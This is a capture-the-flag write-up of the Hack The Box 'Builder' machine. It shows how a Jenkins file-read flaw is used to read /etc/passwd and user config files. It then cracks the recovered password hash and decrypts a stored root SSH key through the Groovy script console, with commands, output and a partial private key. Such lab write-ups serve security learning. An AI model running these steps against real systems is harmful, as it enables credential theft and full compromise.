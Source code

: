 ```yaml
---
title: "Builder"
date: 06-04-2025
categories: [Linux, Medium]
tags: [Medium,Jenkins, LFI, Password Cracking]
image: https://labs.hackthebox.com/storage/avatars/a0f6d6a08e0806448341587cd59450a6.png
---
```


Builder is a medium Linux box. The machine only has two ports open one of which is an open **Jenkins** portal. This version of Jenkins is vulnerable to a file disclosure. Using this arbitrary file read we can read configuration files which give us a hashed password for a user that has login access to Jenkins. After cracking this password we can run a script inside groovy script which lets us decrypt the private ssh key that gives us root access.

![builder_info_card](assets/images/builder/Builder.png)

## Enumeration

Using nmap we see that there are only two ports open, ssh and 8080 which points to a Jenkins instance.

```
nmap 10.10.11.10 -p22,8080 -oN nmap/builder -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-06 19:10 CEST
Nmap scan report for 10.10.11.10
Host is up (0.016s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Dashboard [Jenkins]
|_http-server-header: Jetty(10.0.18)
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
```

If we go to `http://10.10.11.10:8080/` we get to view the Jenkins portal. At the bottom right we get which version is running which is 2.441. Going over the users page we see that there is another user registered that being Jennifer.

![builder](assets/images/builder/page.png)

#### File Disclosure 

This version is vulnerable to a file disclosure, I used [this](https://www.exploit-db.com/exploits/51993) script to retrieve the files from the server. But before I could do this I had to get familiar with Jenkins and how it stores file and user information. Below is a handy table I found of how the jenkins home directory is structured. 

```
/jenkins
├── config.xml
├── credentials.xml
├── jobs
├── plugins
├── users
├── secrets
├── fingerprints
├── workspace
├── logs
├── updates
├── userContent
└── ...
```
We can already see some files that could be of interest. Before we can retrieve them we must know their full path. I stumbled upon it by luck when testing for the file disclosure, when retrieving the `/etc/passwd` file I found the user `Jenkins` with its home directory located at `var/jenkins_home`. With the full path we can now try to retrieve the files.

```
python3 LFI.py -u http://10.10.11.10:8080/ -p /etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
```

With this file we can see that there is no one with a home directory in this machine so reading ssh keys is not going to work to get us access. Reading the `credentials.xml` file provides us with an encrypted text which seems to be an ssh key. I tried some scripts to decrypt it with some secret keys but they did not work. After doing some more research I was able to find that the file inside of `var/jenkins_home/users/users.xml` contains information about users. 

```
python3 LFI.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/users.xml
<?xml version='1.1' encoding='UTF-8'?>
      <string>jennifer_12108429903186576833</string>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
      <string>jennifer</string>
  <version>1</version>
</hudson.model.UserIdMapper>
  </idToDirectoryNameMap>
<hudson.model.UserIdMapper>
    </entry>
```

#### Finding and Decrypting Jennifer's Password

From this we get that Jennifer has a directory with a name of `jennifer_12108429903186576833` inside this directory we can retrieve her configuration file. Which is located at `var/jenkins_home/users/jennifer_12108429903186576833/config.xml`. Inside this file we can find a hashed password.

```
python3 LFI.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/jennifer_12108429903186576833/config.xml
...
...
<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>
```

The hash itself is `$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a` and we can use `Hashcat` with mode 3200 to crack it. Using `rockyou.txt` as a wordlist we get that the password is `princess`. Since Jennifer does not have a home directory and is not a user on the box we cant ssh into it just yet. But with this new credentials we can login as this user into the Jenkins instance.

#### Decrypting the SSH Key

Using [this](https://www.cloudsek.com/blog/xposing-the-exploitation-how-cve-2024-23897-led-to-the-compromise-of-github-repos-via-jenkins-lfi-vulnerability) blog post about the same CVE I was able to decrypt the ssh key that we previously found in the `credentials.xml` file. We can now go to http://10.10.11.10:8080/script/ where we can use the terminal to run the following line of code: 

```
println(hudson.util.Secret.fromString("{XXX=}").getPlainText())
```

After placing the encrypted key into `XXX` we get the private key to the user root which we can then use to ssh into the box.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt3G9oUyouXj/0CLya9Wz7Vs31bC4rdvgv7n9PCwrApm8PmGCSLgv
...
```

![builder](assets/images/builder/root.png)

